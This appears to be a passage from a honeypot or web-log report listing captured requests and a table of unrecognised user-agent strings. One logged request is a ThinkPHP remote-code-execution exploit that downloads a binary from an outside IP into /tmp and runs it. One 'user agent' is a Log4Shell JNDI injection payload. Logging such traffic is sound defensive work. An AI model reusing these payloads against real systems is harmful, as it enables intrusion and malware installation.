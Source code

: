 | 123.157.136.106 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                        |

## user_agent

The list of User Agent presented here are those that have not yet been yet integrated into the [user agent database database](https://blog.shoggoth.industries/database/request_database/).

|     |   number_of_occurence | user_agent                                                                                                                                                                                                                                               |
|----:|----------------------:|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|   0 |                   113 | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36                                                                                                                                      |
|   1 |                    33 | Mozilla/5.0 (iPhone; CPU iPhone OS 17_6_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.6 Mobile/15E148 Safari/604.1                                                                                                                |
|   2 |                    28 | Mozilla/5.0 (iPhone; CPU iPhone OS 17_5_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.5 Mobile/15E148 Safari/604.1                                                                                                                |
|   3 |                    28 | Mozilla/5.0 (iPhone; CPU iPhone OS 18_3_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.3 Mobile/15E148 Safari/604.1 Ddg/18.3                                                                                                       |
|   4 |                     7 | Mozilla/5.0 (Linux; U; Android 2.3.3; ko-kr; SHW-M250S Build/GINGERBREAD) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1                                                                                                          |
|   5 |                     6 | Opera/8.88.(X11; Linux i686; ur-PK) Presto/2.9.160 Version/12.00                                                                                                                                                                                         |
|   6 |                     6 | Googlebot-Video/1.0                                                                                                                                                                                                                                      |
|   7 |                     3 | Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_4) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/11.1 Safari/605.1.15                                                                                                                                    |
|   8 |                     3 | Xpanse, a Palo Alto Networks company, indexes customer network perimeters. If you have any questions or concerns, please reach out to: scaninfo@paloaltonetworks.com.                                                                                    |
|   9 |                     2 | Mozilla/5.0 (Linux; Android 9; moto x4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.157 Mobile Safari/537.36                                                                                                                                 |
|  10 |                     2 | Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3068.0 Safari/537.36                                                                                                                                              |
|  11 |                     2 | Mozilla/5.0 (Debian; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36                                                                                                                                                 |
|  12 |                     2 | Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.5 Safari/605.6.18                                                                                                                                    |
|  13 |                     2 | Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36                                                                                                                                                    |
|  14 |                     2 | Mozilla/5.0 (X11; U; Linux i686; tr-TR; rv:1.9.0) Gecko/2008061600 SUSE/3.0-1.2 Firefox/3.0                                                                                                                                                              |
|  15 |                     2 | Mozilla/5.0 (Linux; Android 7.1.1; Z899VL Build/NMF26V) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Mobile Safari/537.36                                                                                                                  |
|  16 |                     2 | ${jndi:ldap://${:-131}${:-904}.${hostName}.useragent.cvdlqtvdueihu608mbb0p1q1yfh417nw6.oast.site}                                                                                                                                                        |